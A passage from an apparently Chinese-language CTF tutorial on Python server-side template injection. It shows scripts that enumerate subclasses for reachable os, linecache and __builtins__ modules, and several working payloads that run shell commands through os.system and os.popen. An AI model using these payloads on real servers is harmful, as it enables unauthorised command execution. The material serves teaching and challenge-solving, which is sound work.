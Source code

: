 Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，**它是一个阻塞的方法**，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，**Popen方法也不会打印出cmd的执行信息**。



## 0x04 如何发掘可利用payload

最初接触SSTI的时候总会有一个固定思维，遇到了题就去搜SSTI的payload，然后一个个去套，随缘写题法（×）。然而每个题都是有自己独特的一个考点的并且python环境不同，所能够使用的类也有差异，如果不能把握整体的原理，就不能根据具体题目来进行解题了。这里我们来初探一下发掘步骤。

比如我们想要一个执行命令的payload，如何查找？很简单我们只需要有os模块执行os.system即可

**python2**

```python
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print num,item
        num+=1
    except:
        num+=1

#72 <class 'site._Printer'>
#77 <class 'site.Quitter'>
```

**payload**

```python
''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls')

[].__class__.__base__.__subclasses__()[72].__init__.__globals__['os'].popen('ls').read()
```

查阅资料发现访问os模块还有从warnings.catch*warnings模块入手的，而这两个模块分别位于元组中的59，60号元素。`__init__`方法用于将对象实例化，在这个函数下我们可以通过func\*globals（或者`__globals**`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。

于是还可以挖掘到类似payload（注意payload都不是直接套用的，不同环境请自行测试）

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')

[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```

我们除了知道了linecache、os可以获取到命令执行的函数以外，我们前面还提到了一个`__builtins__`内建函数，在python的内建函数中我们也可以获取到诸如eval等执行命令的函数。于是我们可以改动一下脚本，看看python2还有哪些payload可以用：

```python
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    #print item
    try:
        if item.__init__.__globals__.keys():

            if '__builtins__' in  item.__init__.__globals__.keys():
                print(num,item,'__builtins__')
            if  'os' in  item.__init__.__globals__.keys():
                print(num,item,'os')
            if  'linecache' in  item.__init__.__globals__.keys():
                print(num,item,'linechache')

        num+=1
    except:
        num+=1
```